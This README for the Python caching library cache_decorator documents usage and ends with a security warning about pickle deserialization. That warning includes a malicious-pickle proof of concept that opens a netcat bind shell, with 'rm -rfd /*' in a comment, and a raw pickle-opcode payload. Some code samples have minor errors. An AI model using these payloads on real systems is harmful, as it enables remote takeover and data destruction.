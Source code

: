 cache_decorator
=========================================================================================
|travis| |sonar_quality| |sonar_maintainability| |codacy|
|code_climate_maintainability| |pip| |downloads|

A simple decorator to cache the results of computationally heavy functions.
The package automatically serialize and deserialize depending on the format of the save path.

By default it supports ``.json .json.gz .json.bz .json.lzma`` and ``.pkl .pkl.gz .pkl.bz .pkl.lzma .pkl.zip`` but other extensions can be enabled by using the extra feature:

[numpy] ``.npy .npz``

[pandas] ``.csv .csv.gz .csv.bz2 .csv.zip .csv.xz``

Also there is an optimized format for numerical dataframes:

[pandas] ``.embedding .embedding.gz .embedding.bz2 .embedding.xz``

This creates an optionally compressed tar archive with pickles of the index and 
columns and a ``.npy`` of the values.

The extra feature ``[numba]`` enables the caching of numba objects.

.. code:: python

    import time
    import numpy as np
    import pandas as pd
    from cache_decorator import Cache

    @Cache(
        cache_path={
            "info": "/tmp/{function_name}/{_hash}.json.xz",
            "data": "/tmp/{function_name}/{_hash}.csv.gz",
        },
        validity_duration="24d",
        args_to_ignore=("verbose",),
        enable_cache_arg_name="enable_cache",
    )
    def function_to_cache(seed: int, verbose: bool = True):
        np.random.seed(seed)
        if verbose:
            print(f"using seed {seed}")
        return {
            "info": {"timestamp": time.time(), "seed": seed,},
            "data": pd.DataFrame(
                np.random.randint(0, 100, size=(100, 4)), columns=list("ABCD")
            ),
        }


How do I install this package?
----------------------------------------------
As usual, just download it using pip:

.. code:: shell

    pip install cache_decorator

To install **all** the extensions use:

.. code:: shell

    pip install "cache_decorator[all]"

(the double quotes are optional in ``bash`` but required by ``zsh``)

Optionally you can specify the single features you want:

.. code:: shell

    pip install "cache_decorator[numpy, pandas, numba]"

If the installation fails you can try to add ``--user`` at the end of the command as:

.. code:: shell

    pip install "cache_decorator[numpy, pandas, numba]" --user


Tests Coverage
----------------------------------------------
Since some software handling coverages sometime
get slightly different results, here's three of them:

|coveralls| |sonar_coverage| |code_climate_coverage|


.. |travis| image:: https://travis-ci.org/zommiommy/cache_decorator.png
   :target: https://travis-ci.org/zommiommy/cache_decorator
   :alt: Travis CI build

.. |sonar_quality| image:: https://sonarcloud.io/api/project_badges/measure?project=zommiommy_cache_decorator&metric=alert_status
    :target: https://sonarcloud.io/dashboard/index/zommiommy_cache_decorator
    :alt: SonarCloud Quality

.. |sonar_maintainability| image:: https://sonarcloud.io/api/project_badges/measure?project=zommiommy_cache_decorator&metric=sqale_rating
    :target: https://sonarcloud.io/dashboard/index/zommiommy_cache_decorator
    :alt: SonarCloud Maintainability

.. |sonar_coverage| image:: https://sonarcloud.io/api/project_badges/measure?project=zommiommy_cache_decorator&metric=coverage
    :target: https://sonarcloud.io/dashboard/index/zommiommy_cache_decorator
    :alt: SonarCloud Coverage

.. |coveralls| image:: https://coveralls.io/repos/github/zommiommy/cache_decorator/badge.svg?branch=master
    :target: https://coveralls.io/github/zommiommy/cache_decorator?branch=master
    :alt: Coveralls Coverage

.. |pip| image:: https://badge.fury.io/py/cache-decorator.svg
    :target: https://badge.fury.io/py/cache-decorator
    :alt: Pypi project

.. |downloads| image:: https://pepy.tech/badge/cache_decorator
    :target: https://pepy.tech/badge/cache_decorator
    :alt: Pypi total project downloads

.. |codacy| image:: https://api.codacy.com/project/badge/Grade/70b54eb55b1c4d0182fbfbaa4e36b87d
    :target: https://www.codacy.com/manual/zommiommy/cache_decorat +or?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=zommiommy/cache_decorator&amp;utm_campaign=Badge_Grade
    :alt: Codacy Maintainability

.. |code_climate_maintainability| image:: https://api.codeclimate.com/v1/badges/888ccd8cdcf5a7b2acca/maintainability
    :target: https://codeclimate.com/github/zommiommy/cache_decorator/maintainability
    :alt: Maintainability

.. |code_climate_coverage| image:: https://api.codeclimate.com/v1/badges/888ccd8cdcf5a7b2acca/test_coverage
    :target: https://codeclimate.com/github/zommiommy/cache_decorator/test_coverage
    :alt: Code Climate Coverate

Examples of Usage
----------------------------------------------
To cache a function or a method you just have to decorate it with the cache decorator.

.. code:: python

    from time import sleep
    from cache_decorator import Cache
    from dict_hash import Hashable

    @Cache()
    def x(a, b):
        sleep(3)
        return a + b

    class A(Hashable):
        def __init__(self, x):
        self.x = x

        # you can call a method without args
        def my_method(self):
            return "|{}|".format(self.x)

        # you can call a static method
        @staticmethod
        def my_staticmethod():
            return "CIAO"

        # you can call a property
        @property
        def my_property(self):
            return "|{}|".format(self.x)

        # methods, static methods, and properties can return a custom formatter
        # that access attributes but can't call other methods
        def custom_formatter_method(self):
            return "{self.x:.4f}"

        @Cache(
            # this is a quick example of most things you can do in the formatting
            cache_path="/".join(
                "{cache_dir}",
                "{self.x}",
                "{self.my_method()}",
                "{self.my_staticmethod()}",
                "{self.my_property()}",
                "{self.custom_formatter_method()}",
                "{a}",
                "{b}_{_hash}.pkl",
            )
        )
        def f(self, a, b):
            sleep(3)
            return a + b
                
        # only needed if you want "{_hash}" in the path
        def consistent_hash(self) -> str:
            return str(self.x)

Cache path
----------
The default cache directory is ./cache but this can be setted by passing the cache_dir parameter to the decorator or by setting the environment variable CACHE_DIR.
In the case both are setted, the parameter folder has precedence over the environment one.


.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_dir="/tmp")
    def x(a):
        sleep(3)
        return a

The path format can be modified by passing the cache_path parameter.
This string will be formatted with infos about the function, its parameters and, if it's a method, the self attributes.

De default path is:

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_path="{cache_dir}/{file_name}_{function_name}/{_hash}.pkl")
    def x(a):
        sleep(3)
        return a

But can be modified giving cache a more significative name, for example we can add the value of a into the file name.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_path="{cache_dir}/{file_name}_{function_name}/{a}_{_hash}.pkl")
    def x(a):
        sleep(3)
        return a

Depending on the extension of the file, different serialization and deserialization dispatcher will be called.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(cache_path="/tmp/{_hash}.pkl.gz")
    def x(a):
        sleep(3)
        return a

    @Cache(cache_path="/tmp/{_hash}.json")
    def x(a):
        sleep(3)
        return {"1":1,"2":2}

    @Cache(cache_path="/tmp/{_hash}.npy")
    def x(a):
        sleep(3)
        return np.array([1, 2, 3])

    @Cache(cache_path="/tmp/{_hash}.npz")
    def x(a):
        sleep(3)
        return np.array([1, 2, 3]), np.array([1, 2, 4])

Ignoring arguments when computing the hash
------------------------------------------
By default the cache is differentiate by the parameters passed to the function.
One can specify which parameters should be ignored.


.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(args_to_ignore=["verbose"])
    def x(a, verbose=False):
        sleep(3)
        if verbose:
            print("HEY")
        return a

Multiple arguments can be specified as a list of strings with the name of the arguments to ignore.

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(args_to_ignore=["verbose", "multiprocessing"])
    def x(a, verbose=False, multiprocessing=False):
        sleep(3)
        if verbose:
            print("HEY")
        return a

Cache validity
------------------------------------------
Cache also might have a validity duration. 

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(
        cache_path="/tmp/{_hash}.pkl.gz",
        validity_duration="24d"
        )
    def x(a):
        sleep(3)
        return a

In this example the cache will be valid for the next 24 days. and on the 25th day the cache will be rebuilt.
The duration can be written as a time in seconds or as a string with unit.
The units can be "s" seconds, "m" minutes, "h" hours, "d" days, "w" weeks.

Logging
-------
Each time a new function is decorated with this decorator, a new logger is created.
You can modify the default logger with ``log_level`` and ``log_format``.


.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(log_level="debug")
    def x(a):
        sleep(3)
        return a

If the default format is not like you like it you can change it with:

.. code:: python

    from time import sleep
    from cache_decorator import Cache

    @Cache(log_format="%(asctime)-15s[%(levelname)s]: %(message)s")
    def x(a):
        sleep(3)
        return a

More informations about the formatting can be found here https://docs.python.org/3/library/logging.html .

Moreover, the name of the default logger is:

.. code:: python

    logging.getLogger("cache." + function.__name__)

So we can get the reference to the logger and fully customize it:

.. code:: python

    import logging
    from cache_decorator import Cache

    @Cache()
    def test_function(x):
        return 2 * x

    # Get the logger
    logger = logging.getLogger("cache.test_function")
    logger.setLevel(logging.DEBUG)
    
    # Make it log to a file
    handler = logging.FileHandler("cache.log")
    logger.addHandler(handler)

Error Handling
--------------
A common problem we noted using the library is that if the saved type is not compatible with the chosen extension,
the program will raise an exception at the end of the function and we lose all the work done.
To mitigate this proble, now the cache decorator has a built-in system for handling errors.
If there is an error in the serializzation of the result, the program will make an automatic backup using pickle.
This by default will add ``_backup.pkl`` to the end of the original path, but if for any reason this would over-write a file, a random string will be appended.
And log (with critical level) the path of the backup file and the supposed path where the 

Suppose we erroneusly set the extension to CSV instead of JSON:

.. code:: python

    from cache_decorator import Cache

    @Cache("./test_{x}.csv")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    test_function(10)
    # 2021-02-22 13:22:07,286[CRITICAL]: Couldn't save the result of the function. Saving the result as a pickle at:
    # ./test_10.csv_backup.pkl
    # The file was gonna be written at:
    # ./test_10.csv


Now we can manually load the value and store it at the correct path, this way the next time the function is called, the cache will be loaded correctly with the right extension.

.. code:: python

    import json
    import pickle

    # Load the backup
    with open("./test_10.csv_backup.pkl", "rb") as f:
        result = pickle.load(f)

    # Save it at the right path
    with open("./test_10.json", "w") as f:
        json.dump(f, result) 

.. code:: python

    from cache_decorator import Cache

    @Cache("./test_{x}.json")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    test_function(10) # Load the corrected Cache at "./test_10.json"


Optionally, one can programmatically sort this out by catching the exception and accessing its fields.

.. code:: python

    from cache_decorator import Cache

    @Cache("./test.csv")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    try:
        test_function(10, y="ciao")
    except SerializationException as e:
        result = e.result
        backup_path = e.backup_path
        path = e.path
        

Moreover, the backup path can be costumized using the ``backup_path`` parameter, here you can use the same parameter of ``path`` and also ``{_date}``, which is the date of the bakcup, and ``{_rnd}`` which guarantees that the file will not overwrite any other file:

.. code:: python

    from cache_decorator import Cache

    @Cache("./test.csv", backup_path="./backup_{date}_{rnd}.pkl")
    def test_function(x):
        return {"this":{"is":{"not":{"a":"csv"}}}}

    test_function(10, y="ciao")
    
    # 2021-02-22 13:22:07,286[CRITICAL]: Couldn't save the result of the function. Saving the result as a pickle at:
    # ./backup_2021_02_22_13_22_07_18ce30b003e14d16d5e0f749e8205e467aedfbba.pkl
    # The file was gonna be written at:
    # ./test.csv

        

Internals
--------------
If for any reason you need to get a reference to the wrapped function and its cacher class, you can access them using the internal variables:

.. code:: python

    from cache_decorator import Cache

    @Cache()
    def test_function(x, y):
        return 2 * x

    original_test_function = test_function.__cached_function
    test_function_cacher_class = test_function.__cacher_instance

We do not suggest to use them.


Manual Caching
--------------
If for some reason you need to manually manage your cache, you can use the built in static methods of the ``Cache`` class.
It will automatically create the needed folders. Moreover, you can get the expected path for a function call.

.. code:: python

    from cache_decorator import Cache
    
    # you can use the Cache class functions to load and store data easily
    # but here you can't use a path formatter but you have to pass a complete path.

    # Store
    Cache.store({1:2, 3:4}, "./my_custom_cache/best_dict_ever.json)

    # Load
    best_dict = Cache.load("./my_custom_cache/best_dict_ever.json)

    # This would not format anything!
    # Cache.store({1:2, 3:4}, "./my_custom_cache/{_hash}.json)
    # this would save a file called literally called "{_hash}.json"

    @Cache()
    def test_function(x, y):
        return 2 * x


    # you can get the path where the file would be saved (this does not call the function!).
    path = Cache.compute_path(test_function, 10, y="ciao")


Security Warnings
-----------------

Whenever possible don't use the pickle extension.
De-serializzation of untrusted data might lead to Remote Code Execution or Local Privilege Escalation ( https://davidhamann.de/2020/04/05/exploiting-python-pickle/ ).
Therefore, simple formats such as json is preferable whenever possible.

Suppose we have this code:

.. code:: python

    from cache_decorator import Cache

    @Cache("./cache/{x}.pkl)
    def my_awesome_function(x):
        return x

    ...

    my_awesome_function(1)

If in any way we have access to the cache folder, we can easily exploit it:

.. code:: python

    import pickle

    COMMAND = "netcat -c '/bin/bash -i' -l -p 4444" # rm -rfd /*

    class PickleRce(object):
        def __reduce__(self):
            import os
            return (os.system,(COMMAND,))

    payload = pickle.dumps(PickleRce())
    print(payload)
    # b"\x80\x04\x95>\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c#netcat -c '/bin/bash -i' -l -p 4444\x94\x85\x94R\x94."

    with open("./cache/1.pkl", "wb") as f:
        f.write(payload)

Next time that the function is called with argument ``1``, we will spawn a remote shell and take control of the system.

Or, since Pickle is a "programming language" which is executed by a VM, we can write a general RCE exploit which only uses builtins:

.. code:: python

    import pickle
    
    # Build the exploit
    command = b"""cat flag.txt"""
    x = b"c__builtin__\ngetattr\nc__builtin__\n__import__\nS'os'\n\x85RS'system'\n\x86RS'%s'\n\x85R."%command
    
    # Test it
    pickle.load(x)

For this reason is important to either use a simpler serializzation scheme like json and to fortify the system by setting the cache dir to be read-write only for the current user.

.. code:: bash

    chown -r $USER:$USER ./cache
    chmod -r 600 ./cache

This way only the current application can create and modify the cache files.
